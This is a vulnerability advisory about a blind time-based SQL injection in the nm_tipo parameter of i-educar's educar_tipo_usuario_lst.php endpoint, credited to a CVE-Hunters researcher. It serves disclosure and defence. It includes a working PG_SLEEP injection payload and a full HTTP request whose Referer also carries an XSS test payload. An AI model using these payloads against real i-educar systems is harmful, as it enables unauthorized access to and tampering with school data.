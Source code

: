 # SQL Injection (Blind Time-Based) Vulnerability in nm_tipo Parameter on educar_tipo_usuario_lst.php Endpoint

---

## Summary

A SQL Injection vulnerability was identified in the `educar_tipo_usuario_lst.php` endpoint of the _i-educar_ application, specifically in the `nm_tipo` parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.

---

## Details

**Vulnerable Endpoint:** `/educar_tipo_usuario_lst.php`  
**Parameter:** `nm_tipo`

To reach the vulnerable functionality, it is necessary to navigate to:  
**Configurations > Permissions > User Types**.

![[Pasted image 20250809185507.png]]

Additionally, exploiting this vulnerability requires an account with permissions to **create/list users and user types**.

The application fails to properly validate and sanitize user input in the `nm_tipo` parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.

---

## PoC

**Payload:**

`'%20AND%208767%3D(SELECT%208767%20FROM%20PG_SLEEP(10))%20OR%20'EgwO'%3D'pMdZ`

**Decoded Payload:**

`' AND 8767=(SELECT 8767 FROM PG_SLEEP(10)) OR 'EgwO'='pMdZ`

This payload triggers a **10-second delay** in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.

**Example Request:**
```
GET /intranet/educar_tipo_usuario_lst.php?busca=S&nm_tipo=1'%20AND%208767%3D(SELECT%208767%20FROM%20PG_SLEEP(10))%20OR%20'EgwO'%3D'pMdZ&descricao=1&nivel=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://localhost/intranet/educar_tipo_usuario_lst.php?busca=S&nm_tipo=%22%3E%3Csvg+onload%3Dalert%2812%29%3E&descricao=%22%3E%3Csvg+onload%3Dalert%2812%29%3E&nivel=-1
Cookie: grav-admin-flexpages=eyJyb3V0ZSI6Ii9ob21lIiwiZmlsdGVycyI6e319; grav-tabs-state={%22tab--f0e041eed24f87f2b6b02fd6924d0a08%22:%22data.languages%22%2C%22tab-flex-pages-e838602f51515c83bca06a8ae758ce52%22:%22data.security%22%2C%22tab-flex-pages-b6676b27f5cdf6b6c22f8e18da4259a0%22:%22data.advanced%22%2C%22tab-flex-pages-raw-8f0a83a672754f7823714134334b1de8%22:%22data.content%22%2C%22tab-flex-pages-dc26c564cb2116d77bda5fff24ba90dc%22:%22data.security%22%2C%22tab-flex_conf-user_groups-accounts-02f0e9f68f41a0648ed530f80bd72c06%22:%22data.cache%22%2C%22tab-flex-pages-raw-9a0364b9e99bb480dd25e1f0284c8555%22:%22data.content%22%2C%22tab-flex-pages-e91e6348157868de9dd8b25c81aebfb9%22:%22data.security%22%2C%22tab--8cc45760590da203c5fc3568ecbabd66%22:%22data.routes%22%2C%22tab--7a2ac3477f8ad14aa750831441325a16%22:%22data.facebook%22}; i_educar_session=hRnVO9PXmAH7dVAd7DsTeTgExwM6ccdtZZaCcpob
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```

![[Pasted image 20250809183140.png]]

Observe the increased server response time, confirming that the injected SQL command was executed.

---

## Impact

- **Unauthorized data access:** Reading sensitive information such as credentials, personal data, or configuration details
    
- **Database enumeration:** Extracting database schema, tables, and column details
    
- **Data manipulation:** Adding, modifying, or deleting database records
    
- **Denial of Service (DoS):** Using time-based queries to impact system availability
    
- **Potential escalation to RCE:** If combined with other vulnerabilities and specific database features


## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
